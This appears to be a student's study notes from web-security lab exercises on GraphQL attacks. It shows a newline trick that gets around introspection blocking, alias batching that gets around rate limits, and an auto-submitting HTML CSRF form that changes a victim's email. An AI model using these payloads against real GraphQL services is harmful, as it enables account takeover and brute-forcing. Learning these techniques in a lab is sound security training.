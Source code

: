 ____

GraphQL -> Set instrospection query
GraphQL -> Save GraphQL queries to sitemap

![[Pasted image 20250124190634.png]]

____

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

```json
{ "query": "query{__schema {queryType{name}}}" }
```

Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

![[Pasted image 20250124191855.png]]

Add `%0a` --> \n

![[Pasted image 20250124191926.png]]

![[Pasted image 20250124192136.png]]

____

 Bypassing rate limiting using aliases

```
# Request with aliased queries
query isValidDiscount($code: Int) {
  isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount2: isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount3: isvalidDiscount(code: $code) {
    valid
  }
}
```

![[Pasted image 20250125125915.png]]

____
CSRF vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.

POST requests that use a content type of `application/json` are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site.

However, alternative methods such as GET, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.

```html
<html>
  <body>
    <form id="csrfForm" action="https://0ab4005c03ce773980ee1ce500280052.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value='mutation changeEmail { changeEmail(input: { email: "attacker1@example.com" }) { email } }'>
    </form>
    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>
```



